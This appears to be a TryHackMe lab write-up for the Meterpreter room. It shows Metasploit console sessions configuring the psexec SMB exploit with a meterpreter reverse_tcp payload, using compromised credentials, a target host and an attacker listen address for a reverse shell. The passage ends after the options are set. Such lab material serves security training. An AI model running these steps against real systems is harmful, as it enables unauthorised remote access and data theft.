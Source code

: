 ```yaml
---
URL: https://tryhackme.com/r/room/meterpreter
---
```

From an initial compromise we have obtained the username and password of an SMB server. We will use the metasploit framework to establish a reverse shell connection to the server and exfiltrate information from it.

## Configuring SMB psexec

We will first load the `exploit/windows/smb/psexec` module using use. Then we can use `show options` to check which parameters we can set to configure the exploit.

```bash
msf6 exploit(windows/smb/psexec) > use exploit/windows/smb/psexec
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.139.128  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

From the above output, we can see that the compromised usernames and passwords can be set via the `SMBUser` and `SMBPass` options respectively. `RHOST` is set to the ip address of the target machine.

Furthermore, since we are planning to initiate a reverse connection, we need to set `LHOST` to the ip address of our machine.

```bash
msf6 exploit(windows/smb/psexec) > set SMBUSER ballen
SMBUSER => ballen
msf6 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
msf6 exploit(windows/smb/psexec) > set RHOST 10.10.109.254
RHOST => 10.10.109.254
msf6 exploit(windows/smb/psexec) > set LHOST 10.4.72.115
LHOST => 10.4.72.115
```
